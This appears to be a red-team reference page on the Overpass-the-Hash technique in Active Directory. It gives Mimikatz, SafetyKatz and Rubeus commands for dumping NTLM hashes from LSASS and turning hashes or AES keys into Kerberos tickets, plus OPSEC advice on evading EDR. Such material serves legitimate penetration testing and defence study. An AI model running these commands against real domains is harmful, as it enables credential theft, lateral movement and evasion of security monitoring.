

<Callout type="info" title="MITRE ATT&CK Mapping">
* [T1550.002 - Use Alternate Authentication Material: Pass the Hash](https://attack.mitre.org/techniques/T1550/002/)
* [T1550.003 - Use Alternate Authentication Material: Pass the Ticket](https://attack.mitre.org/techniques/T1550/003/)
* **Defense Evasion:** Use alternate authentication material.
</Callout>




---

## Concept & Differences

<Callout type="info" title="PTH vs. OPTH">
* **Pass-the-Hash (PTH):** Using an NTLM hash to authenticate to a *local* user on another machine locally.
* **Overpass-the-Hash (OPTH):** Using an NTLM hash to authenticate *within an Active Directory domain*. It generates Kerberos tickets (tokens) from hashes or keys. It is essentially a combination of PTH and Pass-the-Ticket (PTT).
</Callout>

<Callout type="warning" title="How Overpass-the-Hash Works">
1. **Obtain NTLM Hash:** The attacker extracts the NTLM hash (or AES keys) from memory (LSASS) or `NTDS.dit` using credential dumping tools.
2. **Request Kerberos TGT:** Instead of using the hash for direct NTLM authentication, the attacker sends an AS-REQ to the KDC using the NTLM hash. The KDC is tricked into issuing a valid Kerberos TGT.
3. **Access Domain Resources:** The attacker uses the TGT to request service tickets (TGS) for domain resources (file shares, RDP, etc.) without ever knowing the plaintext password.
</Callout>

---

## Execution & Tools

<Callout type="danger" title="Mimikatz & SafetyKatz (Requires Elevation)">
OPTH generates tokens from hashes or keys. You must run these tools as Administrator. These commands start a new process with a Logon Type 9 (same as `runas /netonly`).
</Callout>

<Tabs>
  <Tab title="Mimikatz">
    ```cmd
    # 1. Dump NTLM hashes from MSV SSP
    mimikatz # privilege::debug
    mimikatz # sekurlsa::msv

    # 2. Overpass the Hash using NTLM
    mimikatz # sekurlsa::pth /user:Administrator /domain:sindad.local /ntlm:<NTLM_HASH> /run:cmd.exe

    # 3. Overpass the Hash using AES256 Key (Better OPSEC)
    mimikatz # sekurlsa::pth /user:Administrator /domain:adolf.local /aes256:<AES256_KEY> /run:powershell.exe
    ```
  </Tab>
  <Tab title="SafetyKatz">
    ```powershell
    SafetyKatz.exe "sekurlsa::pth /user:administrator /domain:adolf.local /aes256:<aes256keys> /run:cmd.exe" "exit"
    ```
  </Tab>
  <Tab title="Rubeus (Modern & Preferred)">
    Rubeus is a C# tool for interacting with Kerberos. It is heavily preferred in modern red teaming over Mimikatz for OPTH.
    
    <Tabs>
      <Tab title="Without Elevation (RC4/NTLM)">
        *Requests a TGT and injects it into the current session (/ptt)*
        ```powershell
        Rubeus.exe asktgt /user:administrator /rc4:<ntlmhash> /ptt
        ```
      </Tab>
      <Tab title="With Elevation / OPSEC Safe (AES256)">
        *Creates a hidden process, better for evasion*
        ```powershell
        Rubeus.exe asktgt /user:administrator /aes256:<aes256_key> /opsec /createnetonly:C:\Windows\System32\cmd.exe /show
        ```
      </Tab>
    </Tabs>
  </Tab>
</Tabs>

---

## Important OPSEC Note: Mimikatz vs. Rubeus

<Callout type="danger" title="Operational Security (OPSEC)">
In modern enterprise environments (Windows 10/11, Server 2019/2022) equipped with modern EDR (Endpoint Detection and Response) solutions, **Mimikatz's `sekurlsa::pth` command is heavily monitored and usually blocked.**

Mimikatz interacts directly with LSASS memory to patch or manipulate authentication, which immediately triggers EDR alerts.

**Red Teams and Attackers have largely moved to Rubeus for Overpass-the-Hash.** Rubeus directly interacts with standard Windows Kerberos APIs (requesting the TGT via legitimate network calls) without needing to touch LSASS memory directly for ticket creation. If you have the NTLM or AES hash, always use `Rubeus.exe asktgt` instead of Mimikatz's `sekurlsa::pth` to maintain stealth and reliability.
</Callout>
